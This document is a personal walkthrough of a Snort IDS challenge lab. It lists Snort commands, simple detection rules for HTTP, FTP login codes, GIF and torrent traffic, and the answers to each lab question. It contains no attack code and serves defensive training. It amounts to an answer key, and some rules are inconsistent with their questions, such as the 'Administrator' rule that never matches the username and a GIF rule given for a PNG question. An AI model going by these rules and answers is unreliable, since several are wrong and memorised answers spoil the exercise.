# Snort Challenge Room 

## Room Description
The room invites you a challenge to investigate a series of traffic data and stop malicious activity under two different scenarios. Let's start working with Snort to analyse live and captured traffic.

## Writing IDS IPS Rules for HTTP Traffic

The task file mentioned is **TASK-2 (HTTP)**

#### Question 1:  Navigate to the task folder and use the given pcap file, Write a rule to detect all TCP packets from or to port 80. What is the number of detected packets you got? Note: It should be for both inbound and outbound connections

**Answer:** 

For this particular scenario I will be ediiting the local rules present in the /etc/snort/rules/local.rules

```
snort -c local.rules -r torrent.pcap -l . -A console 
```



**Rule Used:** Rule Used: alert tcp any any <> any 80 (msg: "TCP Packet Capture"; sid: 1000002; rev:4;)


I want to mention one thing, kindly kindly comment out the existing rules in the /etc/snort/rules/localrules or else the number of alerts like how I made the silly mistake makes you wonder what is the right answer. For which I will show the comparision


**Wrong Answer or Detection**




**Right Answer**


Lets now run snort and we will get the results: 
```
# This helps us to print the output in this particular directory and no need to navigate to some other directory

sudo snort -c /etc/snort/rules/local.rules -r mx-3.pcap -l . -A console
```
#### Question 2: What is the destination address of the 64th packet

**Answer:** 216.239.59.99
```
sudo snort -r snort.log.1792238124 -n 64
```

#### Question 3: Investigate the snort.log file. What is the ACK number of packet 64?

**Answer** 0x2E6B5384



#### Question 4: Investigate the snort.log file. What is the SEQ number of packet 62?

**Answer** Now instead of entering 64 enter 62 so that you do not need to scroll or just scroll and type the right number...choice is yours

#### Question 5: Investigate and tell the TTL for the packet number 65

**Answer** 128


#### Question 6: Source IP for Packet number 65

**Answer** 145.254.160.237



## Writing FTP Rules for Analsis

#### Question 1: Use the given pcap file. Write a single rule to detect "all TCP port 21"  traffic in the given pcap. What is the number of detected packets? (Navigate to the FTP TASK Folder for the Pcap)

**Answer** 307



#### Question 2: Investigate the log file. What is the FTP service name?

**Answer** The best way to investigate the file is to use wireshark but sadly there ain't wireshark so we gotta use the snort log file itself

```
sudo snort -X -d -e -r snort.log.1792239384 -n 10

```
I just tried to dump it all for the first 10 packets and found the result eventually.



#### Question 3: Clear the previous log and alarm files. Deactivate/comment on the old rules. Write a rule to detect failed FTP login attempts in the given pcap. What is the number of detected packets?

**Answer** Failed Login attempts via FTP is given as 530

so snort rule gets modifed like that: 

alert tcp any any <> any 21 (msg: "Traffic Activity with failed port 21 attempts"; content: "530"; sid: 1000001; rev:1;)




#### Question 4: Clear the previous log and alarm files.Deactivate/comment on the old rule.Write a rule to detect successful FTP logins in the given pcap. What is the number of detected packets?

**Answer:** Successfull attempts would be considered as 230

alert tcp any any <> any 21 (msg: "Traffic Activity with successfull port 21 Login"; content: "230"; sid: 1000001; rev:1;)



#### Question 5: Clear the previous log and alarm files. Deactivate/comment on the old rule.Write a rule to detect FTP login attempts with a valid username but no password entered yet. What is the number of detected packets?

**Answer** Code for correct username but need password for entering means username entered is valid: 230

**Rule:** alert tcp any any <> any 21 (msg: "Username Entered Correct"; content: "331"; sid: 1000001; rev:1;)



#### Question 5: Clear the previous log and alarm files. Deactivate/comment on the old rule. Write a rule to detect FTP login attempts with the "Administrator" username but no password entered yet. What is the number of detected packets?

**Answer:**

**Rule:** alert tcp any any <> any 21 (msg: "Username Entered as Administrator"; content: "331"; sid: 1000001; rev:1;)

To use an and condition add all the content you require in the same rule itself 



## Writing rules for Image Files

#### Question 1: Deactivate/comment on the old rule. Write a rule to detect the PNG file in the given pcap.Investigate the logs and identify the software used.


**Answer:**
**Rule Used:** alert tcp any any <> any any (msg: "GIF File Found"; content: "gif"; nocase; sid: 1000001; rev:1;)



#### Question 2: Deactivate/comment on the old rule. Write a rule to detect the GIF file in the given pcap.Investigate the logs and identify the image format embedded in the packet.









## Writing Rules for Torrent Meta Data Files

#### Question 1: 


**Answer:** 2

**Rule:** alert tcp any any <> any any (msg: "Torrent Meta Data File Found"; content: "torrent"; sid: 1000001; rev:1;)



#### Question 2: 

**Answer:** 

```
snort -X -d -e r <filename>

```

#### Question 3: Mime Type

**Answer:** Application/x-bittorrent

#### Question 4: What is the Host name

**Answer:** tracker2.torrentbox.com




### Troubleshooting Rules

Troubleshoot and fix the rules

#### Question 1: Fix the Rule



#### Question 2: Fix the Rule



#### Question 3: Fix the Rule




#### Question 4: Fix the Rule



#### Question 5: Fix the Rule



#### Question 7: Fix the rule



#### Question 7: Fix The Rule



### Using External Rules

#### Question 1: Find number of detected packets with given rule local.rules

**Answer** 25154



#### Question 1: Find number of detected packets with given rule local-1.rules

**Answer:** 12



#### Question 2: Find THE request path from the given file

**Answer:** 




#### Question 3: What is the request Path of the \log/alarm files

**Answer:** \\192.168.116.138\IPC$

#### Question 4: What is the CVSS Score of the Vulnerability

**Answer:** 9.3

### Using External for log4j

#### Question 1: Number of Packets Detected (Local.rules)

**Answer:** 26



#### Question 2: Number of Rules Triggered (Local.rules)

**Answer:** 4



#### Question 3: Number of Rules Triggered (Local.rules)

**Answer:** 4

#### Question 4: What are the first 6 digits of the triggered rule

**Answer:** 210037

